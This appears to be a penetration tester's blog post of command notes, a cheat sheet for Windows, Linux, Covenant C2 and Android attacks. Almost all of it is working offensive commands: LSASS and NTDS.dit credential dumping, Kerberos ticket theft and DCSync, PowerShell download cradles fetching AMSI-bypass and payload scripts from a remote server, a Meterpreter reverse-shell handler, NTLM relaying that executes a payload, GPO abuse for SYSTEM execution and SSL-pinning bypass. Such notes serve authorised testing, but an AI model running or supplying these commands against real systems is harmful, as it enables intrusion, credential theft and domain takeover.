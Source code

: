 ```yaml
---
layout: post
title: "Pentesting Notes"
tags: notes
---
```


### Windows

`Invoke-Inveigh -ConsoleOutput Y -HTTPPort 8080 -FileOutput Y -FileOutputDirectory .`

`certutil.exe -urlcache -split -f http://172.16.10.1/obfs.exe`

LSASS dump without touching disk

```
net use x: \\mysmbserver\c$\
powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lassdump.bin full
```

NTDS audit 

```
# Dump NTDS.dit file using NTDSUtils
powershell ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

`powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\path\to\put\data\' q q"`

`ntdsaudit.exe ntds.dit -s SYSTEM -p pwdump.txt -u users.csv`


Breakout

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe MSBuildShell.csproj `

`cmstp.exe /ni /s C:\Users\username\Desktop\cmstp.inf`

`rundll32 shell32.dll,Control_RunDLL \\192.168.0.4\sharez\cmd.dll`

`pcalua.exe -a C:\windows\system32\cmd.exe`

C#

`Rubeus.exe asktgt /user:username /rc4:ntlm-hash`

`Rubeus.exe dump /service:krbtgt`

PowerShell

`IEX(New-Object Net.WebClient).downloadString('http://192.168.0.1/amsi.ps1')`

```PowerShell
$string = 'iex ((new-object net.webclient).downloadstring("http://payloadserverip/Amsibypass.ps1")); iex ((new-object net.webclient).downloadstring("http://payloadserverip/payload.ps1"))'
```

`[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($string))`

`$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force`

`$Cred = New-Object System.Management.Automation.PSCredential('Domain\user', $SecPassword)`

Use Egress-Asses for data expiltration detection capabilities.

`https://github.com/FortyNorthSecurity/Egress-Assess`

```bash
cd /opt/Egress-Assess/setup
$ sudo ./setup.sh
$ cd ..
$ sudo ./Egress-Assess.py --server http --server-port 8080
```

`PowerShell Invoke-EgressAssess -Client http -DataType ni -IP 10.0.0.4 -Port 8080 -NoPing`

### Linux

`snmpwalk -v 2c -c public <hostIP>`

`hping3 -c 1 --icmp-ts <ip-address>`

`sudo -u postgres psql -U postgres`

`python -m http.server 80`

`msfconsole  -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp;  set lhost 10.10.10.10; set lport 443; set ExitOn Session false; exploit  -j"`

`impacket-smbserver -smb2support files . `

Remove duplicate lines from the file
`awk '!seen[$0]++' filename`

mitm6

`mitm6 -i eth1 -d domain.name`

`ntlmrelayx -6 -smb2support -t smb://<target-ip> -e shell.exe`

`ntlmrelayx.py -6 -wh randomhostname.domain.local -t smb://<target-ip-to-redirect-auth-to> -l /tmp -socks -debug` 

`proxychains python3 /opt/impacket/examples/smbclient.py domain/Administrator@192.168.0.77`


Linux command to use powershell compatible encoded strings

`echo "iex(command)" | iconv --to-code UTF-16LE | base64 -w 0`

Pivoting 

`proxychains socat TCP4-LISTEN:3389,fork TCP4:10.10.10.15:3389`

Search for a *.doc or *.pdf file

`find / -type f \( -iname "*.doc" -o -iname "*.pdf" \) 2>/dev/null`

Look for file with suid set  

`find / -perm u=s -type f 2>/dev/null`

Mountable shares

`showmount -e <IP>`

`mount -t nfs 192.168.0.25:/home /tmp/mnt/`


`curl -g [ipv6-addess-here]`


vlan tagging

`sudo modprobe 8021q`

`sudo vconfig add eth0 104.`

`sudo ip addr add 10.0.0.1/24 dev eth0.104`

`sudo ip link set up eth0.104`



### Covenant


`Assembly /assemblyname:"SharpHound3" /parameters:"-c All -D domain.co.uk"`

`SharpUp audit`

`BypassUACGrunt powershell`

`MakeToken user domain.local Password`

`Rubeus Triage`

`Rubeus dump`

`Rubeus asktgt /user:users /rc4:ntlm-hash`

`Rubeus ptt /ticket:`

`DCSync DOMAIN\krbtgt`

`PortScan WS1,DC1 135,445,3389,4444,5985` 

`shell msiexec /i C:\Windows\Temp\msi-installer.msi /qn`

`PowerShellRemotingCommand Computer "powershell -enc <base64>"`

`Assembly /assemblyname:"SharpGPOAbuse" /parameters:"--AddComputerTask --TaskName \"My Task\" --Author NT AUTHORITY\SYSTEM --Command \"cmd.exe\" --Arguments \"/c <powershell-payload>" --GPOName \"My GPO\""`


### Android


`./emulator -avd <emulator-name> -writable-system -selinux disabled -qemu -enable-kvm --dns-server 8.8.8.8`

`adb root && adb remount`

`adb shell`

`adb reboot`

`adb install application.apk`

`adb logcat | grep "$(adb shell ps | grep <package-name> | awk '{print $2}')"`

`adb push frida-server /data/local/tmp/frida-server`

`adb shell "/data/local/tmp/frida-server &"`

`frida --codeshare pcipolloni/universal-android-ssl-pinning-bypass-with-frida -f com.packageappname --no-pause -U`


Objection

`pip3 install objection`

`objection --gadget "com.packagename" explore`

`android sslpinning disable`

`android hooking search classes com.application`

